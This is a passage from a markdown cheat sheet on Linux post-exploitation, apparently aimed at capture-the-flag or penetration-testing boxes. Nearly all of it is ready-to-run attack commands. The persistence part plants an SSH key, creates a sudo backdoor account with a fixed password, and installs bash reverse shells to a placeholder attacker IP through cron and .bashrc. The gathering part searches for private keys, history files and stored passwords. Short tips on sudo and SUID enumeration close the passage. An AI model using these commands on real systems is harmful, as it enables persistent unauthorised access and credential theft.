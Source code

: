
## Post-Exploitation

### Persistence
```bash
# Add SSH key
mkdir -p ~/.ssh
echo '<your-public-key>' >> ~/.ssh/authorized_keys
chmod 600 ~/.ssh/authorized_keys

# Create new user
sudo useradd -m -s /bin/bash hacker
sudo echo 'hacker:hacker123' | chpasswd
sudo usermod -aG sudo hacker

# Cron persistence
echo '*/5 * * * * /bin/bash -i >& /dev/tcp/<attacker-ip>/4444 0>&1' | crontab -

# Startup script
echo '/bin/bash -i >& /dev/tcp/<attacker-ip>/4444 0>&1' >> ~/.bashrc
```

### Information Gathering
```bash
# SSH keys
find / -name "id_rsa" 2>/dev/null
find / -name "id_dsa" 2>/dev/null
find / -name "*.pem" 2>/dev/null
cat ~/.ssh/id_rsa
cat ~/.ssh/authorized_keys

# History files
cat ~/.bash_history
cat ~/.mysql_history
cat ~/.python_history

# Configuration files with passwords
grep -r "password" /etc/ 2>/dev/null
grep -r "pass" /var/www/ 2>/dev/null
find / -name "*.conf" -exec grep -l "password" {} \; 2>/dev/null
```

## Common Mistakes

### 1. Not Checking Sudo Permissions
❌ Forgetting to run `sudo -l`
✅ Always check sudo permissions first - many boxes have sudo misconfigurations

### 2. Missing Obvious SUID Binaries
❌ Not running SUID enumeration
✅ Always run `find / -type f -perm -4000 2>/dev/null`
